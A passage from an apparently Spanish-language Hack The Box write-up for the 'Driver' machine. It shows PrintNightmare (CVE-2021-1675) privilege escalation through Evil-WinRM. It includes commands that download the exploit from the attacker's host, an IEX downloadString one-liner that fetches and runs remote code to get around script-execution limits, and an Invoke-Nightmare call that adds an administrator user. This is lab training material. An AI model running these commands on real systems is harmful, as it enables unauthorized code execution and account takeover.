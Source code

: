   Ya estamos sirviendo un servidor web sobre el puerto **8000**.

* Desde la máquina víctima descargamos el objeto servido en el puerto **8000**.

  ```powershell
  *Evil-WinRM* PS C:\> cd c:\Users\tony\Videos
  *Evil-WinRM* PS C:\Users\tony\Videos> IWR -uri http://10.10.14.6:8000/CVE-2021-1675.ps1 -OutFile night.ps1
  ```

  Lo guardamos como `night.ps1` en nuestro directorio de trabajo, en mi caso `c:\Users\tony\Videos\` (:

  Y listoooo, ahora a explotar estoooooooooooooooooooooooooo...

Lo siguiente únicamente es decirle al sistema que tome el script, lo lea, tome las funciones y su contenido y lo "importe", esto para simplemente llamar a la función que genera la explotación y eso, generar la explotación :P

```powershell
*Evil-WinRM* PS C:\Users\tony\Videos> Import-Module .\night.ps1
```

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/driver/387bash_tonyPS_ImportModule_disabledRUNscripts.png" class="img-to-zoom" data-toggle="modal" data-target=".modal-zoomed-img" style="width: 100%;"/>

No tenemos la posibilidad de ejecutar scripts... PEEEEEEEEEERO, hay una manera que podemos probar, se basa en invocar una "string" como una expresión, lo que quiere decir que tomara la cadena de texto como código y lo interpretara, básicamente evitamos importar el módulo y lo hace de una vez, podríamos intentarlo a ver...

* [ss64.com - Invoke-Expression](https://ss64.com/ps/invoke-expression.html).
* [docs.microsoft.com - Invoke-Expression](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/invoke-expression?view=powershell-7.2).

Su uso para que tome un objeto online y lo interprete sería así:

```powershell
powershell IEX(New-Object Net.WebClient).downloadString('http://rhost:rport/file')
```

Dándole nuestros datos quedaría:

```powershell
powershell IEX(New-Object Net.WebClient).downloadString('http://10.10.14.6:8000/CVE-2021-1675.ps1')
```

La ejecutamos (como estamos en una **PowerShell** no es necesario ponerlo de nuevo) yyyyyy no vemos ningún error:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/driver/387bash_tonyPS_IEX_CVE_done.png" class="img-to-zoom" data-toggle="modal" data-target=".modal-zoomed-img" style="width: 100%;"/>

Pues ahora si llamemos a la función que vulnera el sistema y démosle los parámetros que necesita a ver si sirve:

```powershell
Invoke-Nightmare -NewUser "lanz" -NewPassword "lanz321!@" -DriverName "HolaMiRey"
```

> Recuerda, el `Invoke-Nightmare` es el nombre de la función... ¿Cómo lo confirmamos sin guiarnos por los PoC? Entras al script y ahí verás que ella es la que engloba tooodo lo que genera la explotación, por lo tanto, es necesario llamarla a ella (:
